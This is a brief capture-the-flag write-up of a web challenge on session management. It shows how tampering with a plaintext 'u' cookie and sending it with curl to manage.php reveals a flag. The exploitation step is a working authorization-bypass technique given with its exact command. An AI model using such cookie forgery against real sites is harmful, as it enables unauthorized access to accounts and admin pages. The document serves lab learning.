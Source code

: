 # Web: Cookies and Session Management: Chef hacky mchack

Visiting http://141.85.224.70:8087/ loaded a typical HTML-based portfolio.

Using browser dev tools, under Application → Cookies, we observed:

```makefile
Cookie: u=user
```

Since the challenge was about session management, we tried changing the cookie value.

## Exploitation

Using the challenge title as inspiration, we modified the cookie to:

```ini
u=hacky mchack
```

Then we accessed a likely admin-only page, manage.php that we found on the main page in the top navbar:

```bash
curl -s -b "u=hacky mchack" http://141.85.224.70:8087/manage.php
```

This returned: 
```html
<div style="opacity: 0.05">SSS{n0_m0r3_c00ki3s_f0r_y0u_m1st3r}</div>
```
